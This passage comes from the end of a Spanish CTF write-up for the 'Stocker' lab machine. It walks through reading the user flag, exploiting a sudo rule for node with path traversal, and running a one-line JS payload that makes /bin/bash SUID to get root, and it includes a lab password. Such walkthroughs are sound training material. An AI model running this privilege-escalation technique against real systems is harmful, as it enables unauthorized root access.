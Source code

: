 ```bash

angoose@stocker:~$
```
Hacemos ls y ya podemos ver la primera flag

```bash

angoose@stocker:~$ ls
flag.js  user.txt
angoose@stocker:~$ cat user.txt
ca4*************************7d
angoose@stocker:~$
```

## Escala de privilegios

Si hacemos sudo -l vemos que podemos ejecutar cualquier js con node

```bash

angoose@stocker:~$ sudo -l
[sudo] password for angoose: IHeardPassphrasesArePrettySecure 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
angoose@stocker:~$ 

```

Ahora definimos un js para que nos haga una bash suid, cuando lo ejecutemos nos hará un directory path traversal

## Codigo js

```
require('child_process').exec('chmod u+s /bin/bash')
```
 Ejecutamos el script de js y al hacer bash -p tendremos privilegio como root

```bash
angoose@stocker:~$ sudo node /usr/local/scripts/../../../home/angoose/setensa.js
[sudo] password for angoose: IHeardPassphrasesArePrettySecure 
angoose@stocker:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
angoose@stocker:~$ bash -p
bash-5.0# cd /root
bash-5.0# ls
root.txt
bash-5.0# cat root.txt
26*****************************9
bash-5.0# 
```
Y obtenemos la segunda flag

Espero que les haya gustado mi primer writeup y que se haya entendido

Gracias por leer :D.
